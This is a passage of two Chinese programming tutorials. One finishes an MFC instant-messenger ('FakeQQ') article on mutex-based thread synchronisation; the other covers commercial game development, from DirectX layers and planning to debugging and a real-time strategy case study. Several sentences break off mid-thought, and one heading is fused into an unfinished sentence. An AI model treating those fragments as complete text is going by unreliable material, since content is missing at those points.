编写多线程应用程序最重要的问题就是线程之间的资源同步访问。因为多个线程在共享资源时如果发生访问冲突通常会导致不正确的结果。例如，一个线程正在更新一个结构的内容时另一个线程正试图读取同一个结构。结果我们将无法得知所读取的数据是什么状态，旧数据、新数据还是二者的混合。FakeQQ也存在相似的问题，因为现在可能同时存在多个线程访问数据库。先进的数据库系统都会处理好同步问题，可是谁来维护数据库对象，谁来维护 FakeQQ 的用户界面呢？

MFC 提供了一组同步和同步访问类来解决这个问题。

MFC 同步类包括 CSyncObject， CSemaphore， CMutex， CCriticalSection 和 CEvent；同步访问类包括 CMultiLock 和 CSingleLock。

同步类用于保证资源的整体性。其中 CSyncObject 是其他四个同步类的基类，不直接使用。信号同步类 CSemaphore 通常用于当一个应用程序中同时有多个线程访问一个资源(例如应用程序允许对同一个 Document 有多个 View)的情况。事件同步类 CEvent 通常用于在应用程序访问资源之前应用程序必须等待(例如在数据写进一个文件之前数据必须从通信端口得到) 的情况。而对于互斥同步类 CMutex 和临界区同步类 CCriticalSection 都是用于保证一个资源一次只能有一个线程访问，二者的不同之处在于前者允许有多个应用程序使用该资源(例如该资源在一个 DLL 当中)，而后者则不允许对同一个资源的访问超出进程的范畴，而且使用临界区的方式效率比较高。

同步访问类用于获得对这些控制资源的访问。CMultiLock 和 CSingleLock 的区别仅在于是需要控制访问多个还是单个资源对象。

同步访问控制很简单，一般步骤如下。

- ① 创建一个同步对象。
- ② 针对该同步对象创建一个同步访问对象。
- ③ 在执行操作前调用同步访问对象的Lock()函数开始锁定。
- ④ 在执行操作后调用 Unlock()函数释放锁定。

好了，现在我们要求一次只能有一个线程控制用户界面、访问数据库，那么，改动如下。

- (1) 为 CFakeQQDlg 类添加 CMutex 成员对象。

```c++
class CFakeQQDlg : public CDialog
{
public:
    CMutex m_Mutex;
//...
```

- (2) 在CFakeQQDlg::PushMsg()函数首部和尾部加上同步锁操作。

```c++
void CFakeQQDlg::PushMsg(CMsgInfo *pMsg)
{
    CSingleLock sLock(&m_Mutex);
    //加锁
    sLock.Lock();
    //核心操作，参见3.3.3
    //解锁
    sLock.Unlock();
}
```

#### (六)其他

- 1. 准备QQ主服务器
为每个用户分配唯一的用户名或者标识号，通过服务器统一管理用户的静态信息和动态信息(包括头像、用户名、IP地址和端口号)，而不需要像FakeQQ一样，主叫连接时土土地问人家要对方的IP地址和端口号。
- 2. 美化FakeQQ的用户界面
学习CJLib代码，让FakeQQ支持Outlook Bar (就是那个装着好友名单可以翻来翻去的框子)。此外，为FakeQQ添加位图按钮、位图菜单。
- 3. 增添更多的头像
不要再用图标(本文采用图标旨在简化程序结构)，可以学习QQ将头像都放到BMP文件中去，然后在程序中动态地加载它们。
- 4. 建立安全通讯
FakeQQ采用UDP发送讯息，发了就发了，对方收没收到就不管了。应该采取相应的机制(但不要TCP)，譬如对方主机在取到讯息后自动回复一下，这样就实现了应用层的安全。
- 5. 引入用户概念
FakeQQ的用户概念是很弱的，不同用户的信息和聊天内容需要安全地分割开。
- 6. 支持“二人世界”和“文件传输”
必要的时候改用TCP协议。
- 7. 支持系统广播
这个简单，向每个客户端发送一条消息即可。
- 8. 打上广告条
目前来说，打上广告应该是软件盈利的一个重要途径，QQ也不例外。

### 四、FakeQQ 的使用方法

FakeQQ 已经实现了QQ最主要的功能——即时通讯。不过，与真正的QQ比起来，它还有很多地方不是很完善，这就需要读者自己通过编程来给它添砖加瓦了。在本书的配套光盘中附有FakeQQ全部的源代码以及编译好的程序，有兴趣的读者可以找自己的朋友一起玩玩这款软件，这有助于你对本文更好的了解。

- (1) 和好友约定好后，双方同时启动FakeQQ。
- (2) 出现“登录对话框”后，设置昵称、头像和启用端口默认值为40000，如果本地同时启动多个FakeQQ，请自行设置端口号以防止冲突。
- (3) 登录成功之后，将显示FakeQQ的主画面，自上而下分别是工具栏、好友列表和版权信息。
- (4) 工具栏分别为“显示聊天记录”和“隐藏窗口”。
- (5) 启动FakeQQ后，用户的头像会显示在系统通知栏里，单击左键显示主窗口，单击右键弹出FakeQQ操作菜单。
- (6) 开始时好友列表只显示“主叫连接”，双击“主叫连接”即可弹出“发送讯息”窗口。
- (7) 指定好友IP地址与端口号，输入讯息内容，点击“发送讯息”即可。怎么获得好友的IP地址和端口？让好友自己查清楚后在线通知你，用OICQ、Email、手机，都行。其实，这一点也正是FakeQQ需要改进的功能之一。
- (8) 对方接收到你的讯息时，FakeQQ在通知栏闪动头像，双击即可查看讯息。FakeQQ自动将新好友加入好友列表。
- (9) 可以在“查看讯息”窗口点击“回复讯息”，亦可通过双击好友列表中的头像给指定好友发送讯息。
- (10) 点击工具栏中的“显示聊天记录”按钮，即可查看历史通话记录。

### 五、结束语

FakeQQ 还不够完美需要继续改进。但本文的主要目的是通过它的编写来介绍VC高级编程。所以，后面的路还需要你自己走……

走VC的路是永远不会孤独的。愿你遇到更多的良师益友，愿你真正地掌握好VC这把利剑，为我们的民族软件产业做出贡献！

(文/白乔)

## 商业游戏编程内掌

### 一、技术基础

#### （一）人员

制作商业游戏的程序员所需要的水平，可以分成以下三个级别。

- 1. 系统分析员
游戏系统分析员的工作是复杂繁重的，他的主要工作包括需求分析、程序设计和进度管理等。
在需求分析阶段，主要是根据游戏最初的方案确定哪些内容是可以实现的，哪些是不能实现的。可以实现的部分如何实现，不能实现的部分该如何修改。最后制定一个可行的游戏程序制作方案，并要写在程序设计文档中。当设计定稿后，制定开发计划，组织人力开发，监督制作成果。
- 2. 主模块程序员
过去，系统分析员和主模块程序员通常由同一人担任，但是系统分析员本身的任务已经很繁重，如果还要分担具体的程序制作任务，则很难面面俱到。所以把主模块程序员独立出来，可以由他来负责对游戏主要运行部分进行编程。
- 3. 外围程序员
游戏的程序一般都会被分割成若干个模块，如果该模块独立性比较大就可以交给其他人员完成。这些外围程序员只要有一定编程经验就可以胜任了。

#### （二）编程平台

Visual Basic、Delphi、Pascal或Java等计算机语言都可以用来写游戏。笔者本人则习惯使用Windows95/98下的Visual C++编程。

现在，编写游戏时不能不提到Microsoft公司的Direct X，它是一套基于Windows95/NT的游戏底层接口。它的使用方法可以从很多专业书籍中了解到，就不在此赘述了。

#### （三）编译环境

Microsoft Visual C++ 2.0/4.0/5.0/6.0是笔者一直使用的编译器。虽然Borland C++和Watcom C++也可以编译Windows程序，笔者仍然认为Visual C++是最好的。没有别的理由，就是因为习惯了。如果你已经习惯使用Watcom C或Free

#### （四）背景知识

要想真正地学好游戏编程，有些基础知识是不可缺少的。

- 1. 硬件知识
游戏编程人员最好对硬件知识有足够的了解。举个例子来说，如果知道了Pentium CPU有两条并行流水线同时处理指令的话，编程的时候就会特别注意在这方面对程序进行优化了。
- 2. 操作系统
对运行游戏的操作系统平台，最好有较深一点的了解。比如了解游戏程序何时被调用等问题就很重要。
- 3. 数学
编游戏接触得最多的是离散数学。最基本的要算是数理逻辑了，就是程序中最普通的判断语句中的那些“与”、“或”、“非”。其次是图论、概率。知道这些编写二维游戏就足够了。如果编写三维游戏，那就赶快复习一下线性代数吧。
- 4. 专业课
数据结构大概是最重要的课程了，象数组、队列、堆栈、链表、表、树、图等概念在游戏程序中几乎都会或多或少地用到。另外，对于三维编程，还有一门叫计算机图形学，也很重要。数据库、网络的概念在游戏编写中也都可能会用到。
- 5. 文件
与游戏密切相关的文件有图像文件、声音文件、视频文件等。这些知识越丰富对编写游戏就越有用。可是，这也并不是绝对的，笔者在刚开始写游戏时连BMP图的格式都不知道。
- 6. 美术
大概每个游戏程序员都有过当“助美”的体验吧。当进行游戏程序测试，或美术师们没有时间完成裁图、切图等“体力”劳动时，程序员自然首当其冲，要代劳了。但是请记住，程序员永远是程序员，就算你画得再好，也比不过专业美工。

### 二、游戏底层

在编写每一个游戏时，都希望能有一部分代码可以重用，这样程序员才能有更多的时间做更多的事情，这些重用的代码就慢慢形成了游戏底层。游戏底层多了，自然就形成了一些类别。

#### （一）显示底层

显示底层即用于基本显示的函数。对 Windows 95/98 下的游戏编程，一般使用 Direct X 作为大部分底层的底层，因为这部分是 Windows 下可以用于编程的最底层函数了。对于二维显示，一般使用的是 Direct Draw 部分。为什么还需要在 Direct Draw 外面再包一层函数呢？第一，Direct Draw 提供的函数扩充性很强，参数多，而使用时参数比较固定，包裹成类库后，参数更可以封装起来。第二，Direct Draw 提供的函数比较分散，而有许多操作是需要多个函数按照一定顺序执行的，包装起来后编写程序比较简单。第三，Direct Draw 函数的返回值比较复杂，而且没有对错误进行系统的处理，需要程序员自己制作一套错误处理函数，对错误代码进行解释。

显示底层有许多种做法，可以完全自己开发，也可以直接使用别人完成的函数库，比如 Internet 上比较流行的 CDX 类库就是对 Direct Draw 进行了很好封装的底层。

显示底层一般分成下面几个部分。

- 窗口处理：窗口的创建、管理、删除。
- 图形接口处理：图形设备初始化、退出，显示模式设定，主显示面、后缓冲区的建立。
- 二维图形处理：游戏使用的二维图像的装入、显示、剪裁、逻辑操作。
- 外围工具：游戏使用的鼠标，刷新率计算和显示，显示内存侦测，错误处理，调试函数等。

#### （二）多媒体播放底层

多媒体播放底层用来播放声音、视频等多媒体。比较古老的一种办法是使用 Windows 3.1 就开始使用的 MCI 调用。MCI 是一种通用接口，使用不同的参数调用同一个函数就可以实现基本相同的功能。用 MCI 可以实现的主要媒体类型有 MIDI、WAVE、CD Audio 和 Video。它的优点是使用简单；缺点则是缺乏交互性，而且同种类型的媒体不能同时播放，这样就很难实现多种音效的混合。

一个基于 Direct X 的调用是 Direct Sound。它是基于 WAVE 文件下的一套播放函数，非常适合混音。缺点就是使用较复杂，编程有些难度。

另外一个针对 MIDI 的 Direct X 是 Direct Music。

对于播放高质量的 Video（视频）文件，则有另外一套底层：比如 Microsoft 的 ActiveMovie 和 Intel 的 Indeo Video 等。有了它们游戏程序员就可以放心地全屏播放 AVI 文件了。

假如你对这些现成的播放程序不满意，也可以完全自己开发。只要知道这些文件的格式，再把它们存储成你需要的格式，用自己更加优化的算法将它显示出来就可以了。

#### （三）文件封装底层

文件封装底层用于对使用的文本、图像等数据进行封装。比如用这种方式把多媒体文件封装起来，防止玩家事先查看。这种工作往往是循序渐进的，要根据自己的时间和实力，封装相应的部分。

有的时候封装也是为了压缩。封装后不仅在安装时少占用硬盘，装入时也可以节省时间，有时在运行时也会减少内存占用而不会对速度有太大的影响。

根据文件类型的不同，一般可以分为文本、图像、声音、视频、动画等。对于每种类型，还必须有打包函数和解包函数之分。

#### （四）界面底层

游戏中一般很少用到 Windows 风格的界面（制作游戏时需要的工具除外），所以游戏的界面要程序员自己来做。这套界面底层应包含 Windows 用到的主要界面元素，如位图（Bitmap）、按钮（Button）、检查框（Checkbox）、滚动条（Scrollbar）、滑块（Slider）等。

#### （五）特殊底层

上面介绍的只是一般游戏所需要的底层。对于某些特殊类型的游戏，可能还会有战略游戏的显示、操作底层；RPG 游戏的事件处理底层；战棋游戏的显示、智能底层；动作游戏的场景底层等。如果编写三维程序，则还会有三维显示和操作底层。这些底层都不需要也不可能在一开始就全部完成，往往是在不断的修改和检验中完善的。它们也不可能一成不变，必然随着编程经验的积累和开发环境的改变而改变和完善。

每个编写游戏的程序员都会慢慢积累出符合自己游戏特点的底层函数库，这些函数库经过不断的发展和扩展将会越来越大，越来越好，这对每个游戏制作公司和集体来讲都是一笔不可忽视的财富。

当这套函数库越来越完善，再加上辅助的一整套工具，就可以被称之为游戏的引擎了。有了引擎在手，不仅意味着有了一套低 Bug 的现成代码，程序员的工作量将会大幅度下降，而且可以把更多的精力放在游戏的优化、游戏的人工智能、游戏的操作性以及娱乐性上面了。

### 三、编写规则

只有一个程序员编写程序的时代已经过去了，现在大部分的程序都需要多个程序员的协作才能完成。

成。这期间必然程序员之间互相阅读代码，因此代码的编写规则成了非常重要的环节。一段代码如果写得浅显易懂，不但在程序交流时非常方便，而且对于程序中的查错也是很有帮助的。程序员也是人，是人就会犯错误，不管他多么地不情愿犯这个错误。所以需要制定一个规则，让大家都来遵守。如果不按照这些规则编写代码编译程序是不会报出错误的。但是如果按照规则编写，则对我们思路的整理、笔误的减少、错误的查找、代码的阅读都是极有好处的。关于编写规则的问题，读者可以参阅“编程课堂”中另一专题《编程的艺术》，那里有非常详尽的论述。

### 四、程序设计

一般在编写第一个游戏时，往往凭借自己的兴趣，想到哪就编到哪，随意性很大。但是当程序越写越大时，有一个问题就会越来越明显，那就是程序的错误。为了减少错误的产生，必须采取一些办法，所以就有了“程序设计”。程序设计的必要性还表现在另一个方面，那就是程序员间的协作。为了让每个程序员对所要做的事和将如何做这件事有个明确的了解，也让管理人员能够从量的角度了解任务的完成状况和进度，就必须有“程序设计”。那么怎样的设计文档才是最有效率的呢？每个公司和每位程序设计人员的习惯都不一样，笔者只介绍一下自己曾经使用过的一些方法和文档的类型。

#### （一）程序设计总纲

笔者发现有些游戏编程人员在很多时候都“不知道”自己在做什么。程序设计总纲就是要告诉自己和自己的伙伴，我们要做的是什么样的游戏程序。它包括以下几方面。

- 游戏概述：游戏的背景、类型、操作方法等。
- 程序概述：游戏程序的编译平台、硬件运行需求、语言、编程重点和难点、技术能力分析等。
- 程序员概述：参与编程人员的能力和在整个程序制作中的作用和地位。
- 程序划分概述：本游戏所需要的所有程序和程序内部的功能模块的划分。这部分只要有比较概括的说明就可以了。

这篇总纲文档的作用就是让所有参与人员都能够了解本游戏程序将会是什么样子，它的特点是什么，完成它的难点又是什么，以及我们为什么要这样做，由谁来做等基本问题。它所面向的对象除了自己和本组内的所有程序员以外，还应该有本游戏的游戏策划、美术设计、项目负责人、项目经理、制片人等。如果有可能也应该和本公司的市场、销售、广告公关、出版、甚至公司总经理充分接触，听取各个方面意见，也充分表达自己的意见。

程序设计总纲就是要做到制作本游戏项目从上到下的所有人员对本游戏的程序制作都能有一个基本的了解、理解并树立信心。

#### （二）程序模块划分

程序模块划分的内容主要有：该模块的功能、接口、技术要点以及所用到的软件底层等。它所面向的对象一般是所有的程序员，但是如果让与程序员合作的人员（美术、策划、经理）也能了解则更好，这样可以加强整个工作组之间的沟通，让不懂编程的人也能了解编程人员的苦衷。一般而言，一个游戏按功能划分可以有下面几个部分。

1.  工具部分
    在游戏的制作过程之中，从游戏策划的文档、游戏美工的图片到游戏完成，中间必有许多的数据转换和加工。这些数据在进入程序之前必须经过规整、排序等操作。这部分工作过去一般都是由程序员来做的。在人手紧张和工作量比较小的时候这样做还是可行的，但如果这样的工作过于复杂，工作量太大，就不行了。这就需要有一种方法来提高工作效率，这种方法就是工具。
    这些工具可以分成三个级别：别人的工具、我们自己的可以重用的工具和我们自己的只在本游戏中使用的工具。别人的工具是最好的工具，原因很简单，因为它不用我们再去编了，不仅程序Bug较少，操作界面友好和简单，而且开发时间是零。所以如果可能尽量要使用别人做好的工具。如果实在没有满足要求的工具，或者我们还需要该工具所没有的功能，那就只能自己编了。那么如果这个工具可以被以后用到的话，也很不错。所以我们在编写任何工具的时候，其通用性应该是被考虑的首要因素。
    工具与游戏其他部分的程序最大的区别就是工具程序是独立的可执行文件，它与游戏的唯一交互方式就是存在磁盘上的文件。所以它比较适合交给其他的程序员来制作。另外一个特点就是它一般都是针对非程序员的，所以如果工具做好了，也可以很大程度上帮助他们提高工作效率。

2.  底层部分
    这部分程序代码的最大特点是可重用性。它是游戏本身与计算机通用系统之间的桥梁，它与游戏的具体细节关系并不大，可以被使用到多种游戏类型和多个游戏上，这一点很重要。实际上，我们编写程序所积累的最直接的财富就是可重用的工具和游戏底层。

    从游戏底层与游戏的相关性上来看，可以有大概三个层次。

    #### （1）最底层
    最底层向下直接调用系统函数和功能，向上与游戏几乎完全无关，是游戏程序与计算机系统的直接桥梁。

    #### （2）中间层
    中间层向下调用最底层的游戏底层，向上为游戏提供函数，与游戏无关。

    #### （3）最高层
    最高层向下调用中间层和最底层，向上为某种类型的游戏提供特殊的逻辑支持，包括战略游戏的命令执行底层、显示底层、地图底层，RPG游戏的事件处理底层、场景底层等。

    当然，我们在做游戏以前也不一定非要什么工具和底层不可，这些东西完全都可以“自然”产生。假如你能够坚持制作几个游戏，可以将反复使用的程序归纳总结起来，修改一下，就是一套底层了。

3.  游戏本身
    每个游戏都是不一样的，但它们都有一些相似的地方。比如下面提到的这些部分。
    游戏的操作：游戏者如何操作和控制游戏中的一个或多个主角。
    游戏的显示：不是游戏的底层，而是与具体游戏有关的显示部分。
    游戏的运动：游戏中有的内容是需要不断变化的，如位置变化、图片变化和形式变化等。
    游戏的智能：能够与人对抗的思考。
    游戏的存储：把所有当前游戏需要的数据保存在磁盘上，然后再重新装入游戏。
    游戏状态：从界面到游戏，从游戏到动画，不同时候有不同的操作和显示管理。

#### （三）程序开发计划

有了要做什么和怎么做，下面应该是需要什么时候做和由谁来做了。
等。
在写完总计划以后，还会有更加详细的月计划以及阶段性计划。

这一切都是为了游戏程序可以按时完成。但除了内部的原因外，还有如下一些外部因素会影响到开发时间。

- 资金因素：资金至少应该支持到可以把游戏做完，而且能够把该游戏推向市场。
- 市场因素：是否是销售旺季，是否有同类产品产生竞争，本类型、题材的游戏是否还受欢迎。
- 策划因素：游戏复杂性有多大，内容有多少，策划的进度是怎样的。
- 美术因素：美术的制作进度是怎样的，何时可以提供需要的内容。
- 技术因素：用户的计算机硬件是否已经准备好。我们的技术是否会过时，开发新技术的风险会有多大。还需要制作哪些外围工具。
- 人员因素：程序员水平如何，配合状况如何。

程序设计人员需要仔细考虑这些因素，才能根据具体情况制定比较完善的程序制作计划。

但是很不幸，笔者从没有按时完成过一个游戏。

总之，在做计划时一定要留有余地，笔者的经验是：完成游戏的时间一般比计划的要多20%到30%。可是如果按照这样的计划去做游戏的话，一定会把投资人吓跑的。于是在现实生活中这种状况就变成了“先斩后奏”；写报告的时候说时间很短，而到时候我们就因为某些原因不得不延期，反正钱也花了这么多了，必须再增加投资而把它做完。所以无论是直接制作游戏的人或者投资制作游戏的人，笔者都希望他们可以对游戏延期的问题有个比较客观的了解。

### 五、程序调试

如果程序出错，一定有它的道理。哪怕运行一千次只出现一次也是如此。所以我们改正错误的过程实际上也就是找到错误的过程。如何找到错误呢？可以试着用下面的方法。

#### （一）屏蔽法

把一些代码去掉，再看错误是否消失了，如果已经消失，那么错误可能在刚才屏蔽掉的代码中，再屏蔽掉另外的代码，如果错误又出现了，则错误肯定在这段代码中。不过需要注意的是，这样做不一定能够找到错误。因为，有时错误是由两段代码或多段代码相互影响造成的。而且有的时候我们找到的地方并不是真正出错的地方，你只找到了错误被引发的地方，而真正出错的地方还需要我们再仔细找。比如，一个

#### （二）比较法

如果上面的方法不能凑效，而且错误是在我们刚刚修改了代码后造成的，那么可以使用比较法，找到原来版本的文件进行比较。所以我们需要经常保存备份程序，一方面是为了保证程序不丢失，另一方面也会增加找到错误的机会。尤其是到了编程的后期，程序大都已经编完，正处于修改的状态，而时间又特别紧迫。如果一旦出现了错误，我们只要比较一下新旧版本，就很容易找到错误。

#### （三）输出Log文件法

如果跟踪了半天也没有结果，几网下去一条鱼也没捞上来，而且必须在全屏状态运行，不能单步跟踪，每执行一遍程序就死机，又需要重新启动，这又该怎么办呢？那也不要担心，我们还有最后一招——输出Log文件。在每一个需要监视的地方，增加一段程序，向磁盘文件输出一段文字，如果程序运行到这里，该文件就会多出一段文字，如果程序运行到这里之前就死机或退出了，那么出错的地方就在这段文字和上段文字之间。虽然这样做比较耗费时间和精力，但是基本上能够找到出错的地方。找到之后，再去找出错的原因吧。

如果还是没有找到错误该怎么办呢？这时一定要有耐心，笔者所遇到的找到错误的最长时间是整整1天，有的人达到过3天。但是笔者目前尚未遇到查找单个错误的时间超过1个星期的。如果寻找错误的时间还没有达到这个长度，就千万不要急于认为这个错误是永远找不到的。

其实最难找的错误并不是这些错误，因为这些错误是确实存在的，改正它只是时间问题。更难调试的错误是那种不是每次运行都出现的错误，有的错误需要特定的环境和条件，比如只在某台计算机上出现；有的错误则需要特定的操作，比如打开某文件，再关上；有的错误则干脆需要运行一定的时间才可能出现，比如运行一个小时。这时候我们的工作才真正艰巨起来。

这时候，也往往是开发的最后关头，最紧张的时候，如果出现了错误，将使我们直接面临一个最严峻的问题——到底是发行时间重要还是修改程序错误重要。姑且不谈到 底谁重要。关键是如何解决这些错误。当工作的重点转向了重复出现的错误，一般常用的方法就是使用出错的计算机，频繁重复执行某些有关的操作，随时存盘以保存最新的信息。

有的时候重新启动一次计算机，重新编译所有代码，更换一些驱动程序，就可以解决问题。但是有些问题笔者必须说明。

第一，要以负责任的态度来解决问题。如果你发现有一个地方很明显不会造成错误，但是修改一下错误确实消失了，这时候千万要小心，因为这个错误可能又被你隐藏起来了，在以后的某个时候（可能是最后的调试期）再次出现，这时候它将会更加隐蔽。

第二，不要动不动就认为是编译器、驱动程序、操作系统或计算机硬件有问题，而下功夫去寻找错误。这些东西确实会有问题，但它们出错的机会比起我们自己要小得多，有问题先从自己那里着手吧。

### 六、真实的游戏案例

下面笔者利用曾经参与制作的一款即时战略游戏为例，具体分析它的制作过程和制作方法。希望借此为那些关心游戏制作的人提供尽可能多的材料，让他们了解得多一些。也为那些有志于游戏制作的人提供一些经验和教训，让他们少走一些弯路。

#### （一）模块划分

这款即时战略游戏的程序共分成了5个大的部分和19个模块。

#### 1. 显示部分

##### （1）战场显示模块
战场显示模块分为通用显示底层和游戏战场显示。
通用显示底层是基于Direct Draw的一套函数。游戏战场显示是根据游戏单元的类型、位置、状态、动画帧等数据将单元位图以适当形式显示在战场的适当的位置上。要显示的内容有地形、单元（士兵／建筑／将领）、攻击效果、魔法效果、远程武器物体、阴影等。

##### （2）界面显示模块
该模块根据游戏设计需要，在显示器相应的位置上显示游戏的各层界面。它分为两个部分，界面底层部分和游戏界面部分。
界面底层是属于底层部分的通用函数库。它包括按钮、对话框、滑块、检查框等界面元素的实现。
游戏界面主要有游戏主菜单、新游戏菜单、读取进度菜单、保存进度菜单、网络选择菜单、系统设置菜单、任务提示菜单、结束菜单、错误处理对话框等。

##### （3）过场动画模块
该模块显示公司标志、制作群、历史回顾、片头、片尾和过场动画等。它有两个部分，第一是播放视频图像，第二是调用其他进程。

##### （4）单挑显示模块
该模块是武将单挑时出现的专门画面。

#### 2. 控制部分

##### （1）鼠标控制模块
该模块根据鼠标的位置设置鼠标的形状，鼠标的操作对响应单元发出命令。主要内容有鼠标点击检测、目的地模式、命令构造、可建造区域判定、鼠标形状转换。
##### （2）命令处理模块
该模块根据鼠标和人工智能发出的命令，传送给对象单元，并将其转化成为单元的相应状态序列。根据单元状态判断、更改单元的状态。
##### （3）攻击计算模块
该模块根据敌我双方的攻防力量及计谋的实施和阵型，计算每一次打击敌人生命的损失。
##### （4）行军控制模块
该模块根据单元的位置、速度、目的地和地形数据，计算行军路线，设置单元的下一步。
##### （5）网络控制模块
该模块包括游戏数据在网络上的传递、纠错以及模拟机的建立和管理。

#### 3. 策略部分

##### （1）君主策略模块
计算机一方根据战场双方的力量对比和战斗模式计算对单元的生产、对敌人的攻击并产生命令。
##### （2）将领策略模块
每一支部队根据将领的属性和士兵的状况调整战斗的方式或判断撤退。
##### （3）本能策略模块
士兵单元面对周围的情况产生固定的基本反应。

#### 4. 文件部分

##### （1）资料数据文件模块
该模块包含地形和单元像素的图像文件、相应控制数据文件、单元的各项属性数据文件、操作用数据文件、界面位置数据文件等。
##### （2）存储数据文件模块
该模块包含存盘用数据，用于记录战场上所有单元的状态和思考数据。

#### 5. 其他部分

##### （1）文件封装模块
该模块主要用来减少程序使用的文件的数量，增加程序的安全性，将大量的图像文件和数据文件封装起来供程序调用。
##### （2）声音模块
该模块用来处理背景音乐和音效。有混音和音量控制。
##### （3）文字模块
该模块用来在非中文系统下显示简体中文、繁体中文、日文和韩文等。

##### （4）地图编辑器
为使美术人员方便快捷规范地制作战场地图，而提供的专门的地图编辑器。同时为整个游戏的文件系统、显示系统做技术上的准备。这是一个单独运行的程序。

##### （5）安装程序
这是一个单独运行的程序，用来安装和卸载游戏。

#### （二）游戏引擎

说到游戏的引擎，很多人都不知道它是什么，以为制作它有多么困难。引擎的概念也确实很混乱。笔者认为，如果一个东西能被称作引擎，它应该具有以下一些特点。

1.  它应该是由函数组成的。
2.  它应该实现某项具体功能。
3.  它应该是完整的。
4.  它应该可以被重新使用。

从上面的要求可以看出，其实这些就是作为底层程序的要求。笔者觉得没有必要把引擎认为是游戏的现成编写工具，只要改一下美术图像就是另一个游戏了。
在上文中提到的显示底层、多媒体底层、界面底层等都可以看作是游戏的引擎。
游戏程序员应该养成一个习惯，在每做完一个游戏之后要把某些东西整理一下，看看它是否可以在以后被使用。当然，这些东西也往往需要不断修改，因为程序运行的平台不一样，它的用途也不一样，而且我们的编程水平也不一样。但总之，这些代码被较为完整地保留了下来，可以成为我们今后编程的基石。

#### （三）关键讨论

不要认为游戏的主要部分写完了，游戏也就差不多了。事情并没有想像的那样简单。
举个简单的例子，像在演示版中通常只有一个兵种和一个战场。游戏的显示效果可能很不错。但是真正在游戏中不会只有一个兵种，每方都会有大概十种兵，又会有三、四方的敌人，这时候显示底层是否能够胜任呢？内存是否会占用太多呢？这时候还需要我们对其进行优化和修改。连游戏的底层显示部分都可能需要修改，更何况游戏中还有更多的内容。所以如果时间允许，一定要多问问自己，这个游戏距离一个真正的产品，到底还缺什么？还有哪些模块和部分没有做完，需要完善？
下面笔者举一些实际开发中的例子，虽然这些可能是极小的问题，但都是我们需要仔细考虑的。

#### 1. 程序状态的转换

我们在这款即时战略游戏中引入了“程序状态”这个概念。在响应消息的地方，我们定义了

#### 2. 执行任务

一个士兵在接到命令之后，便开始了它的行动。它察看一下它的命令，这个命令是由两个部分组成的。它先取出第一个部分，是行走。于是根据自己现在的位置和目的地位置先计算了一下路线，把自己当前的状态设置为正在移动，然后根据计算好的方向和自己的速度把自己移动到一个位置。如果这个位置已经到达目的地了，它就停止行走。又察看一下余下的命令部分，是攻击。于是它拔出刀砍向附近的一个敌人。敌人死了么？它不停地问自己。如果敌人真的“哇”的一声倒下了，它就得意地站在一旁，微笑着。

这就是我们在战场的一个角落所看到的一个士兵的表现。而实际上，在程序里我们也是这样做的。

我们把每个士兵作为一个单元，独立地处理自己的事物。把每个命令划分得更加细致，称其为状态，每个命令都是由一个或多个状态组成的，一个状态满足后就自动转向下一个状态。我们为每个状态都编写专门的开始、运行中和结束代码。这样每个士兵都在独立地按照顺序处理自己的事务，一个个复杂的单元行动就变得有条有理了。

#### 3. 阴影

有人说《Warcraft》做得好，有人说《C & C》做得好。笔者属于前者，这不仅仅因为笔者对《Warcraft》的观察更多一些，而且还有一个理由足以说明《Warcraft》在程序上比《C & C》更高一筹。那就是阴影。大家知道《Warcraft》是双层阴影，而《C & C》是单层。双层阴影的好处是更加真实。当我们去过一个地方之后，虽然已经看清楚了地形，但是这里敌人的活动，我们不应该永远知道。

可是要把单层阴影变成双层，并不是只要加上一层覆盖就可以解决问题。

首先，增加一层阴影就增加了需要显示的时间。时间对于即时战略来讲是至关重要的；它直接影响到游戏的表现效果和操作速度，多加一层阴影就意味着减少了我们增加效果的机会。

其次，增加一层阴影就增加了特殊的计算。一层阴影只需要一个二进制数组记录哪里被打开，哪里被隐藏就可以了。而现在则不同，我们需要把那些已经打开的阴影再关上。我们的做法是生成一个二维数组，每位表示一个像素格子。当有一个士兵的视野可以打开这个格子的阴影时，就把那里的计数器加1，离开时减1，当为0时则这块地形被重新隐藏。

第三，阴影下的单元需要特殊的处理。当士兵离开敌人阵地的时候，敌人附近被半透明的阴影重新覆盖了，这时我们需要把正在那里活动的敌人士兵隐藏起来，而建筑不动。

#### 4. 命令的产生

一个由游戏者发出的命令，一般有三个部分，命令主体、命令本身和命令客体。命令主体就是执行命令的人。我们想对这支部队下达某个命令，这支部队就是命令的主体，在游戏里就是我们用鼠标选中的一群士兵。命令本身是命令的标识。我们想下达什么样的命令，就按下这个命令对应的按钮。命令客体是命令结果的接受者，如果我们选择了攻击命令之后，再选择了一群敌人，那敌人就是命令客体。如果所有的命令都这样下达，那编起程序就简单了，玩游戏的人也会累死了。我们常用的玩法是选择了命令的主体然后直接用鼠标右键点击命令客体。而命令的产生就由命令主体和命令客体的类别来确定。

首先是选择命令主体。当我们在战场上用鼠标一点，或圈了一个框，然后一松手，这时候程序就开始算了。如果我们把单元分成士兵、将领和建筑。士兵又有已经组建成部队的和尚未组建成部队两种。士兵的种类可以分成一般士兵、工人和船。那我们的选择规则可以是：组队的士兵优先于建筑；将领优先于组队的士兵；未组队的一般士兵优先于将领；未组队的船优先于一般士兵；未组队的工人优先于船。另外还有特殊处理，如加入快捷键，按下 Ctrl 键则选中该组队士兵的将领，按下 Shift 键则把刚选中的士兵添加到已选中的士兵中。

其次，是选择命令的客体。命令客体可分为地点和单元两部分。地点有普通地点和资源地点。单元又分为我方的和敌方的。单元的种类有士兵、将领和建筑。士兵分为未组队的和组队的。士兵的种类有工人和一般士兵。建筑又分为一般建筑和资源建筑。我们需要根据命令主体和社会分配共同来判断命令是什么。不同的组合所产生的命令可能是不同的。比如，如果我选择了## 5. 命令队列与网络

网络上的游戏通讯一般有两个办法，交换所有信息和交换重要信息。第一种方法是随时把自己的所有数据都传递到另一端，另一端根据这些数据进行显示的操作。它的优点是不需要同步，对网络状况要求低，计算也非常简单。缺点则是数据量太大，只传递少量数据还可以接受。所以这种方法多用于RPG游戏并多在Internet上使用。

第二种方法则只传递关键的数据，计算机接到这些数据后对其进行计算，因为计算的结果是唯一的，所以可以保证网络两端一致。这种方法适用于那些数据量大的游戏，但它的编写和调度就比较复杂，而且对同步的要求较高。在这种网络的联接方式中，其中最重要的问题一个是同步，一个是结果唯一。只有同步才能保证在每一轮的计算中所有计算机上的初始状况是统一的，只有结果唯一才能保证在执行了一段时间后所有计算机上的状态是统一的。这样才能保证网络游戏操作的正确性。

